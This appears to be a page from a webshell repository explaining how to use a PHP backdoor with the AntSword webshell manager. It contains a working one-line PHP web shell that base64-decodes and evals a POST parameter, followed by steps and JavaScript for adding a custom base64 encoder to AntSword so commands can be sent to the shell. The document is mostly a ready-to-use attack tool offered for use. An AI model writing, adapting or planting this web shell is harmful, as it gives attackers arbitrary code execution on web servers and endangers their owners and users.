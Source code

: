 shell code
```php
<?php 
$a = $_POST['n985de9'];
if(isset($a)) {
    eval(base64_decode($a));
}
?>
```

add : source/core/php/encoder/mybase64.js
![](https://raw.githubusercontent.com/tennc/webshell/master/antSword/2016051523140225737.png)

```js
module.exports = (pwd, data) => {
  data[pwd] = new Buffer(data['_']).toString('base64');
  delete data['_'];
  return data;
}
```

edit : sources/core/php/index.js < add some code: regedit mybase64.js
![](https://raw.githubusercontent.com/tennc/webshell/master/antSword/2016051523132374985.png)

```js
  get encoders() {
    return ['chr', 'base64', 'mybase64'];
  }
```
restart antsword, and add shell, select mybase64 encode  for this shell code.
![](https://raw.githubusercontent.com/tennc/webshell/master/antSword/2016051523122747980.png)

![](https://raw.githubusercontent.com/tennc/webshell/master/antSword/2016051523124431883.png)
